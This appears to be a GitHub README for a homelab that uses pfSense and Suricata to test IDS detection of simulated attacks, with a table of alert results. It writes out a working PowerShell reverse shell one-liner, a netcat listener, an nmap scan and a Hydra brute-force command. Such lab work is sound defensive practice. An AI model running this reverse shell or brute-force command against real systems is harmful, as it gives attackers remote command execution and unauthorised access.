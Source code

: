 # 🛡️ Cybersecurity Homelab: Suricata IDS + Reverse Shell Attack Simulation

![Status](https://img.shields.io/badge/status-completed-brightgreen)  
![Platform](https://img.shields.io/badge/platform-VirtualBox-blue)  
![Log Type](https://img.shields.io/badge/logs-Suricata%20Alerts-orange)

## 📘 Project Overview

This project demonstrates how to set up a virtualized cybersecurity homelab using **pfSense**, **Suricata IDS**, **Kali Linux**, and **Windows 10**. It simulates a real-world cyberattack involving a **reverse shell** and evaluates **Suricata's detection capability**.

---

## 🏗️ Lab Topology

![_- visual selection](https://github.com/user-attachments/assets/4f46f75e-951e-4bed-b097-f30b0ecb1534)


All machines are connected via **VirtualBox Internal Network (LAN_NET)**.

---

## 🔧 Technologies Used

- VirtualBox
- pfSense Firewall + Suricata IDS
- Kali Linux (Netcat, Nmap, Hydra)
- Windows 10 (PowerShell reverse shell)
- Emerging Threats Open Rules

---

## ⚙️ Step-by-Step Setup

### 1. Homelab Configuration
- Installed pfSense and configured LAN interface as `192.168.1.1`
- Installed Suricata on pfSense and enabled Alert-only mode on LAN
- Added **Kali (192.168.1.100)** and **Windows (192.168.1.101)** to LAN_NET

### 2. Rule Configuration
- Enabled decoder and stream rules by default
- Added `emerging-shellcode.rules`, `scan.rules`, and `http-events.rules`
- Suricata configured to alert on suspicious traffic

---

## 🧪 Simulated Attacks

### ✔️ Reverse Shell
- On Kali:

 nc -nvlp 4444


- On Windows PowerShell:
  
  $c=New-Object Net.Sockets.TCPClient('192.168.1.100',4444);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($r=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$r);$o=(iex $d 2>&1 | Out-String);$s.Write(([text.encoding]::ASCII).GetBytes($o),0,$o.Length)}



- Nmap Port Scan:
  
sudo nmap -sS 192.168.1.101

- Hydra Brute Force (HTTP):

sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.101 http-get


## 📡 Suricata Alert Results

Each simulated attack was captured and alerted by Suricata in the pfSense interface.

| Attack            | Suricata Detection Status |
|-------------------|---------------------------|
| Reverse Shell     | ✅ Alerted (Generic Protocol Decode) |
| Nmap Scan         | ✅ Alerted (Port Scanning) |
| Hydra Brute Force | ✅ Alerted (HTTP anomalies) |


> Screenshots available in the `screenshots/` folder.

---

## 📁 Project Structure

```
Cybersecurity-Homelab-and-Reverse-Shell-Simulation/
├── report/
│   └── Homelab_and_Attack_Simulation_Report.pdf
├── screenshots/
│   └── suricata_alerts.png
│   └── reverse_shell_nc.png
├── README.md
```

---

## 🧠 Key Skills Demonstrated

- Virtual firewall and IDS deployment (pfSense + Suricata)
- Red team simulation using Kali Linux
- Alert analysis and logging
- Network security configuration and troubleshooting
- Technical documentation and reporting

---

## 🚀 Future Improvements

- Integrate ELK Stack for centralized logging
- Add Splunk/QRadar for advanced SIEM capabilities
- Include Metasploitable2 for expanded testing

---





